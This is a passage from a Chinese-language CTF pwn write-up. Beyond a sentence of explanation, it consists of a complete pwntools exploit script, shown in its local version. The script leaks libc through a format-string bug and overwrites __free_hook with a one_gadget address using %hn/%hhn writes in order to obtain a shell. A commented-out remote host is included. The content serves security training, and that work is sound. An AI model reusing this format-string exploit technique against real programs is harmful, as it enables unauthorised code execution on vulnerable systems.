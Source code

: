 [![](assets/1701612457-b10ea385030be0b37ab285a221efbb80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215712-da525b62-11cd-1.png)  
这里再执行完上面最后一步就可以修改完了，然后执行 free 函数就直接 getshell 了。

## exp (本地)

```bash
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
context(os='linux',arch='amd64',log_level='debug')

p=process('./pwn')
#p=remote('60.204.130.55',10010)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

sla('Do you know who the best pwner is?\n','TokameinE_is_the_best_pwner\0')

sla('What do you want to say?\n','%18$p')
ru('0x')
#gdb.attach(p)
libcbase = int(r(12),16) - 0x5f1168
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('(og//0x10000)&0xffff',(og//0x10000)&0xffff)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
leak('(free_hook//0x10000)&0xff',(free_hook//0x10000)&0xff)
free1 = free_hook//0x10000000000
leak('free1',free1)
#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-
gdb.attach(p)
num=input()#num = 72
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
#gdb.attach(p)
```